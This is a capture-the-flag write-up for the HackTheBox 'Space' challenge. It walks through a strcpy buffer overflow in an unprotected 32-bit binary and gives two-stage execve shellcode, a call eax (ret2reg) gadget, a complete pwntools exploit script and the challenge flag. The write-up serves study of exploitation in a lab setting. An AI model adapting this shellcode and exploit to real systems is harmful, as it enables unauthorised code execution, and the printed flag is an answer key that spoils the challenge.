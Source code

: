 # Space
## DESCRIPTION:
roaming in a small space
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 32 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0720a66d-d835-43c6-a70b-aa9c354ba5ba)


> BINARY PROTECTIONS --> no protection enabled.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6e3fe610-f9db-4552-9c18-7a74fe05c4c7)


2. After decompiled the binary, we know the vuln is at the sym.vuln where it does strcpy from our input at the sym.main which held up to 31 buffers.
3. But at sym.vuln, our buffers copied to a variable with 10 buffers. Obviously it trigger BOF.
4. The problem is there is no interesting function to jump to and remembering the NX is disabled, the concept here must be `ret2reg`.

### PROBLEMS

- Well it seems we don't have enough spaces after the EIP for our shellcode.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b2c624ff-951f-4f0a-8dd5-420034c2204d)


- Knowing this, hence we need to divide our shellcode. The first one to reach the EIP then use `jmp esp` or `call eax` register then send the other after that which jump to the 11th offset at the stack.
- Then execute our shellcode.


### SHELLCODE

> 1st shell

```asm
xor ecx, ecx
push ecx
push 0xb 
pop eax
jmp $+11
```

> 2nd shell

```asm
xor edx, edx
push 0x68732f2f # //sh
push 0x6e69622f # bin
mov ebx, esp
int 0x80
nop 
nop 
```

#### NOTES: in 32 bit, we use ebx , ecx and edx instead of rdi, rsi, rdx. Also don't forget the order 👍.

5. Actually the intended solution must be using `jmp esp` i guess since we want to jump onto the the 11th offset, but i managed to solve it using `call eax` (ret2reg).

> FULL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './space'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()
call_eax = 0x08049019
log.info('CALL_EAX gadget --> %#0x', call_eax)

# 8 bytes
# we can't do mov eax, 0xb. Because the length shall be 10
# why 11?? Because distance from first A to last A is 11 
# it will loop through the last offset before 8 bytes space
first_shell = """
xor ecx, ecx
push ecx
push 0xb 
pop eax
jmp $+11
"""
shell_1 = asm(first_shell)
print('[INFO] --> LENGTH SHELL 1',len(shell_1))

# 18 bytes
# adding 2 NOPs as paddings so our shellcode length shall be exact 18.
second_shell = """
xor edx, edx
push 0x68732f2f # //sh
push 0x6e69622f # bin
mov ebx, esp
int 0x80
nop 
nop 
"""
shell_2 = asm(second_shell)
print('[INFO] --> LENGTH SHELL 2',len(shell_2))

p = flat([
    shell_2,
    call_eax,
    shell_1
])

sh.sendlineafter(b'>',p)
sh.interactive()
```

> TEST LOCALY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd458eab-5cff-4e1e-989b-4f03d8ffaa96)


> TEST REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/982cddd9-2b93-4fdd-80c4-c040702cc703)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bcc1afa2-6f00-4665-b555-d888cecd3c69)


6. Got the flag!

## FLAG

```
HTB{sh3llc0de_1n_7h3_5p4c3}
```

